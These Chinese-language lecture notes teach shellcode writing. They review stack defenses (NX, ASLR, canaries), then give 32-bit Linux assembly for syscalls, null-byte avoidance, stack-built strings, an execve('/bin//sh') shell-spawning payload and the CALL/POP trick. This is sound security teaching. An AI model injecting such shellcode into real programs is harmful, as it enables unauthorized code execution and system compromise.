


# 006：Shellcode编写指南 🛠️



在本节课中，我们将要学习如何编写Shellcode。Shellcode是一段可以注入到目标程序内存中并执行的机器代码。我们将探讨编写Shellcode时面临的挑战，例如避免空字节、实现位置无关性，并学习如何直接与操作系统内核交互，而不是依赖标准库函数。

## 漏洞的普遍性与防护措施

上一节我们讨论了缓冲区溢出的基本原理。本节中我们来看看为什么这类漏洞如此普遍，以及系统设计者采取了哪些措施来防御它们。

软件开发过程中难免会出现错误。假设每次编写代码时，发生缓冲区溢出的概率是 **P**。随着代码库规模呈指数级增长（例如手机和各类设备中的软件），潜在的漏洞数量也在不断增加。

对于缓冲区溢出这类特定问题，有些编程语言本身就不存在这种风险。然而，现实世界中存在大量用C/C++等语言编写的遗留代码（如操作系统内核、设备驱动程序），完全重写这些代码是不现实的。因此，我们需要在现有基础上进行改进。

一种改进方法是使用更安全的函数。例如，用有长度限制的 `fgets` 替代不安全的 `gets`，用 `snprintf` 替代 `sprintf`。但这依赖于开发者的正确实施。

另一种思路是从系统层面进行防护。回顾一下基本的栈溢出攻击：我们覆盖了缓冲区之后的一个返回地址，并使其指向我们注入的代码。作为系统防御者，我们可以采取以下措施：

*   **不可执行栈（NX/DEP）**：将内存页标记为要么可写但不可执行（用于数据），要么只读但可执行（用于代码）。这可以防止执行栈上的代码。
*   **地址空间布局随机化（ASLR）**：随机化栈、堆和库的加载地址，增加攻击者猜测正确地址的难度。
*   **栈保护金丝雀（Stack Canary）**：在栈上缓冲区与关键数据（如返回地址）之间插入一个随机值（金丝雀）。函数返回前会检查该值是否被改变，若被改变则说明发生了溢出，程序会终止。

金丝雀的灵感来源于矿工用金丝雀检测毒气。在程序中，它的实现大致如下：
1.  函数开始时，从一个安全的位置（如线程本地存储）取出一个随机值 `canary`。
2.  将 `canary` 放置在栈上缓冲区之后。
3.  函数结束时，检查栈上的 `canary` 值是否与原始值相同。通常使用异或操作进行比较：`if (current_canary ^ original_canary == 0)`，则通过检查。

这些防护措施会带来一定的性能开销，安全性与性能之间需要权衡。

## 编写Shellcode：从“Hello World”开始

现在，让我们把视角切换到攻击者，学习如何编写能绕过这些防护的Shellcode。Shellcode的目标通常是获取一个shell，但也可以是任何其他功能。

我们从一个简单的目标开始：让程序打印 “Hello Planet”。通常我们会在C语言中使用 `printf` 或 `write` 系统调用。但Shellcode不能依赖这些库函数，因为它们的地址在ASLR下是随机的。我们必须直接与内核对话。

在Linux上，我们通过 `int 0x80` 软中断（32位）或 `syscall` 指令（64位）来发起系统调用。需要将系统调用号放入 `EAX` 寄存器，参数依次放入 `EBX`, `ECX`, `EDX` 等寄存器。

例如，`write` 系统调用（编号4）的C语言原型是：
```c
write(int fd, const void *buf, size_t count);
```
对应的汇编设置如下：
*   `EAX = 4` (系统调用号)
*   `EBX = 1` (文件描述符，1代表标准输出)
*   `ECX = 字符串地址`
*   `EDX = 字符串长度`

以下是一个简单的汇编程序 `write.s`：
```assembly
global main
main:
    mov eax, 4          ; sys_write
    mov ebx, 1          ; stdout
    mov ecx, mystr      ; 字符串地址
    mov edx, 6          ; 字符串长度
    int 0x80            ; 发起系统调用
    mov eax, 1          ; sys_exit
    int 0x80            ; 退出程序
mystr:
    db 'Hello', 0x0a    ; “Hello”加换行符
```
编译运行后，它能成功打印。但如果我们查看其机器码，会发现其中包含硬编码的地址（如 `mystr` 的地址），这不符合Shellcode位置无关的要求。

## 实现位置无关与消除空字节

为了生成可注入的Shellcode，我们必须解决两个核心问题：
1.  **位置无关**：代码不能包含绝对地址。
2.  **消除空字节（`\x00`）**：空字节在C字符串函数中常被当作终止符，会导致Shellcode被截断。

以下是解决问题的技巧：

**1. 将数据存储在栈上：**
与其在代码段中定义字符串，不如动态地将字符串推入栈中。栈地址可以通过 `ESP` 寄存器获得。
```assembly
push 0x00646c72       ; “rld\x00” 的十六进制，注意顺序和零字节问题
push 0x6f77206f       ; “o wo”
push 0x6c6c6548       ; “Hell”
mov ebx, esp          ; EBX 现在指向栈上的字符串
```
但直接推入 `0x00646c72` 会引入空字节。我们需要通过操作来避免。

**2. 避免指令中的空字节：**
*   当移动小数值到32位寄存器时，高位会被零填充，产生空字节。例如 `mov eax, 11` 的机器码包含 `\x00`。
*   **解决方案**：先清零寄存器，然后操作低字节。
    ```assembly
    xor eax, eax      ; 将 EAX 清零，机器码无空字节
    mov al, 11        ; 将 11 移动到 AL (EAX的低8位)
    ```
*   同样，对于其他寄存器，使用 `xor reg, reg` 来清零。

**3. 构建栈上的参数数组：**
对于 `execve` 系统调用（编号11），我们需要传递一个参数数组。这可以在栈上构建。
```assembly
xor edx, edx          ; EDX = NULL (环境指针)
push edx              ; 数组结尾的 NULL
push 0x68732f2f       ; “//sh”
push 0x6e69622f       ; “/bin”
mov ebx, esp          ; EBX 指向 “/bin//sh”
push edx              ; argv[1] = NULL
push ebx              ; argv[0] = 指向 “/bin//sh” 的指针
mov ecx, esp          ; ECX 指向 argv 数组
mov al, 11            ; EAX = sys_execve
int 0x80
```
通过精心构造，我们可以得到一段没有空字节、位置无关的Shellcode。

## 动态获取当前位置：CALL/POP 技巧

有时我们需要知道Shellcode自身在内存中的地址。一个经典技巧是利用 `CALL` 指令会将返回地址（下一条指令的地址）压栈的特性。
```assembly
global main
main:
    jmp short forward   ; 跳转到 forward 标签
back:
    pop ebx             ; 将字符串地址弹出到 EBX
    ...                 ; 设置其他寄存器
    int 0x80
forward:
    call back           ; 将字符串地址压栈并跳回
    db '/bin/sh', 0x0a
```
`call back` 指令将 `db` 定义字符串的地址压入栈中，然后跳转到 `back`。`pop ebx` 正好将这个地址弹出到寄存器中。这样我们就动态获得了字符串的地址，且代码是位置无关的。

## 总结



本节课中我们一起学习了Shellcode编写的基础知识。我们首先理解了系统防护措施（NX, ASLR, Canary）的存在意义。然后，我们从最简单的系统调用开始，逐步解决了编写实用Shellcode的两个关键挑战：**位置无关**和**消除空字节**。我们学习了如何将数据放在栈上、如何通过寄存器操作避免空字节，以及如何使用 `CALL/POP` 技巧动态定位数据。最终，我们能够构造出可以注入并执行的、精简的Shellcode。这些技术是理解更高级漏洞利用的基础。